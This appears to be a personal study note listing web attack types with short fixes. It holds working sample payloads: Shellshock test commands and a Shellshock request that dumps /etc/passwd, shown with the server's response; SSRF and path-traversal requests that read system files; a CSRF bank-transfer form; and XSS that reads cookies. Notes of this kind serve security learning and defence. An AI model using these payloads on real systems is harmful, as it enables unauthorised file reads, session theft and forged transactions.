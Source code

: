 Security Attacks
-

#### Regular expression Denial of Service (ReDoS)

#### HTTP Desync Attack (Request Smuggling)

#### ~~Shellshock (bashdoor, CVE-2014-6271)~~

````sh
# CVE-2014-6271
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"

# CVE-2014-7169
env X='() { (a)=>\' bash -c "echo date"; cat echo

# CVE-2014-7186
bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' ||
echo "CVE-2014-7186 vulnerable, redir_stack"

# CVE-2014-7187
(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash ||
echo "CVE-2014-7187 vulnerable, word_lineno"
````

````sh
GET http://shellshock.testsparker.com/cgi-bin/netsparker.cgi HTTP/1.1
User-Agent: Netsparker
Host: shellshock.testsparker.com
Referer: () { :;}; echo "NS:" $(</etc/passwd)

HTTP/1.0 200 OK
Server: nginx/1.2.1
Date: Fri, 26 Sep 2014 11:22:43 GMT
Content-Type: text/html
NS: root:x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/bin/sh
bin: x:2:2:bin:/bin:/bin/sh
sys: x:3:3:sys:/dev:/bin/sh
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/bin/sh
man: x:6:12:man:/var/cache/man:/bin/sh
lp: x:7:7:lp:/var/spool/lpd:/bin/sh
mail: x:8:8:mail:/var/mail:/bin/sh
news: x:9:9:news:/var/spool/news:/bin/sh
uucp: x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy: x:13:13:proxy:/bin:/bin/sh
www-data: x:33:33:www-data:/var/www:/bin/sh
backup: x:34:34:backup:/var/backups:/bin/sh
list: x:38:38:Mailing List Manager:/var/list:/bin/sh
irc: x:39:39:ircd:/var/run/ircd:/bin/sh
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody: x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid: x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim: x:101:103::/var/spool/exim4:/bin/false
messagebus: x:102:106::/var/run/dbus:/bin/false
avahi: x:103:107:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
sshd: x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql: x:105:111:MySQL Server,,,:/nonexistent:/bin/false
Connection: close
````

#### Server-Site Request Forgery (SSRF)

````php
<?php
$image = fopen($_GET['url'], 'rb');
````
and
````sh
GET /?url=http://localhost/server-status HTTP/1.1
GET /?url=file:///etc/passwd HTTP/1.1
GET /?url=dict://localhost:11211/stat HTTP/1.1
````

FIX:
* Use whitelist for internal services.
* Use only http & https (ports: 80 & 443).

#### Cross-Site Request Forgery (CSRF)

AIM: Force end user to execute unwanted actions (submitting a malicious request)
on a web application in which they're currently authenticated.
Perform action on the victim's behalf.

````
<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>

<form action="http://bank.com/transfer.do" method="POST">
<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
````

FIX: CORS (if browser support CORS) or CSRF token.

#### DDos (Denial-of-service)

A distributed DDoS is a cyber-attack where the perpetrator uses more than one unique IP address,
often thousands of them.

Distributed autoscale systems may try to cope with DDoS.

#### Cross-Site Scripting (XSS)

Occur when:
data enters through an untrusted source;
dynamic content validation.

Categories:
* stored (database)
* reflected (response includes some malicious input)
* DOM - malicious data does not touch the web server
* self - user has own xss on own social page or something like that

````sh
w.Header().Set("X-XSS-Protection", "0")

<b onmouseover=alert('Wufff!')>click me!</b>
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>

<? php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
// http://testsite.test/<script>alert("TEST");</script>
?>
````

FIX:
Filter input escape output.
Use `.innerText` instead of `.innerHtml`
The use of `.innerText` will prevent most XSS problems as it will automatically encode the text.

#### A1 Injection

SQL Injection and whatnot.

#### ~~XML External Entity (XXE)~~

Is a type of attack against an application that parses XML input,
occurs when XML input containing a reference to an external entity
is processed by a weakly configured XML parser.

#### ~~Clickjacking (UI redress attack)~~

The hacker can only send a single click.

For example, imagine an attacker who builds a web site that has a button on it that says "click here for a free iPod".
However, on top of that web page, the attacker has loaded an iframe with your mail account,
and lined up exactly the "delete all messages" button directly on top of the "free iPod" button.

FIX: Headers `X-Frame-Options: DENY, X-Frame Options: DENY, X-Frame Options: SAMEORIGIN`.

#### Directory (path) traversal attack

AKA: ../ (dot dot slash) attack.
AIM: gain unauthorized access to the file system.

It is exploiting insufficient security validation / sanitization of user-supplied input file names.

````php
<?php
$template = 'red.php';
if (isset($_COOKIE['TEMPLATE']))
   $template = $_COOKIE['TEMPLATE'];
include ("/home/users/phpguru/templates/" . $template);
````
````
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
````

FIX: Query string is usually URI decoded before use.

#### Insecure Deserialization

Never deserialize untrusted data
(crossed trust doundary, couldn't have been modified).

#### ~~JSON hijacking~~

In early versions of browsers the JSON file could be loaded as a normal script.
